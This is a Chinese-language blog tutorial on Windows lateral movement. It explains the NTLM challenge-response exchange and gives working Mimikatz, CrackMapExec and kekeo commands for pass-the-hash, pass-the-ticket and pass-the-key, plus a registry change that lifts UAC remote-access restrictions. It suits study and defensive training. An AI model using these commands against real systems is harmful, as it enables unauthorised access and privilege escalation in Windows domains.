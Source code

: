 ```yaml
---
title: "Mimikatz 哈希与票据传递"
date: 2019-07-16T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mimikatz','domain']
categories: [' 内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



NTLM 协议以及 Mimikatz 哈希与票据传递

<!--more-->

## NTLM 协议

A 想访问 B, 双方先确定协议版本(NTLM v1/NTLM v2).

A 向 B 发送用户名信息, B 接受到用户名后用该用户的 NTLM Hash 加密 Challenge (8位/16位随机数) 作为 Challenge1 (Net-NTLM v1 Hash/Net-NTLM v2 Hash), 之后将 Challenge 发送给 A.

A 使用登录账号的 NTLM Hash 加密 Challenge 作为 Response 发送给 B.

B 接收到 Response 将其与 Challenge1 进行比对, 一致则为认证通过.

## pth (Pass the Hash)

从 NTLM 协议可以知道, 主机间的访问其实跟明文密码是一点关系也没有的, 正常请求时输入的密码也会被加密成 NTLM Hash, 再生成 Net-NTLM Hash.

由此引申出一个手段, 叫做 `Pass the Hash`, 顾名思义, `pth` 通过目标主机的用户名和 Hash 来访问指定机器.

### mimikatz

```
sekurlsa::pth /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e /domain:WIN7
```

```
psexec \\WIN7 whoami
```

### crackmapexec

```
crackmapexec WIN7 -u administrator -H aa5c294fbb6f8b8ae6223ba08805894e -d WIN7 -x whoami
```

### UAC

注意 windows 2008 及以上系统在默认情况下开启 UAC 策略, 不允许 administrator 以外的其它本地管理员用户访问远程资源.

可通过更改注册表关闭 UAC 策略.

域内用户不受此限制.

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

另有更多工具, 在此不再赘述.

## ptt (Pass the Ticket)

ptt 多用于 Kerberos 协议中, 即域环境内. 例如 Golden Ticket, Silver Ticket 以及 ms14-068 都通过 ptt 方式来提升权限.

ptt 相较于 pth 的好处是它无须本地管理员权限, 默认在 mimikatz 中进行 `sekurlsa::pth` 时须将其以管理员权限运行. 但 ptt 只能用于域环境内, 而 pth 在工作组和域内都可以使用.

ptt 的原理类似于 Golden Ticket, 它通过指定账户的用户名和 Hash 来生成一份高权限的 TGT 以请求不同的 TGS Ticket 来达到访问域内资源的目的.

通过 keko 生成 TGT.

```
tgt::ask /domain:test.com /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e
```

通过 mimikatz 导入 TGT.

```
kerberos::ptt ticket.kirbi
```

## ptk (Pass the Key/Over Pass the Hash)

ptk 为什么没有说呢, 因为自己在本地测试的时候总是不成功. 这里仅给出示例代码.

```
sekurlsa::pth /user:test /domain:test.com /aes256:54069d7bc9b69fd1a86817bd887f6f4e84a3c858c46081e4b443ab07a52e9a69
```